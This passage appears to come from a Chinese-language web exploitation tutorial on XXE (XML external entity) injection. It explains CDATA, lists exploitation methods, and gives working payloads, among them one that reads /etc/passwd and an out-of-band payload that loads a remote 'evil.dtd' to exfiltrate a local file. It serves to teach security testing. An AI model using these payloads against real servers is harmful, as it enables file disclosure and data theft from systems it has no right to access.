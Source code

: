 ```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
  <!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
可以输入任意字符除了 ]]> 不能嵌套   
用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来    
### 3.各语言xml解析支持的协议
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe1.png)
### 入门：  
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg?sanitize=true)    
## 0x01 XXE漏洞利用
前提条件：允许外部实体引用。   
按服务端语言有PHP(libxml)、JAVA、JAVA(Android)一般解析函数都是默认不开启的、Python、libxml2。   
漏洞利用方法分： 
- 文件操作：
  0x01 回显读取文件   
  0x02 不带回显读取文件-OOB(Out of Band）    
  0x03 报错回显读取文件-XXE Base Error   
- 0x04 远程执行
- 0x05 端口探测
- 0x06 文件上传-jar协议   

### 1.回显读取文件
#### payload   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file:///etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### 2.不带回显读取文件-OOB(Out of Band）   
>
OOB XXE 需要使用到DTD约束自定义实体中的参数实体。参数实体是只能在DTD中定义和使用的实体，以 %为标志定义，定义和使用方法如下    
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY normal "hello">  <!-- 内部普通实体 -->
    <!ENTITY normal SYSTEM "http://xml.org/hhh.dtd">  <!-- 外部普通实体 -->
    <!ENTITY % para SYSTEM "file:///1234.dtd">  <!-- 外部参数实体 -->
    %para;            <!-- 引用参数实体 -->
]>
```
而且参数实体还能嵌套定义，但需要注意的是，内层的定义的参数实体% 需要进行HTML转义，否则会出现解析错误。   
```
<?xml version="1.0"?>
<!DOCTYPE test [
```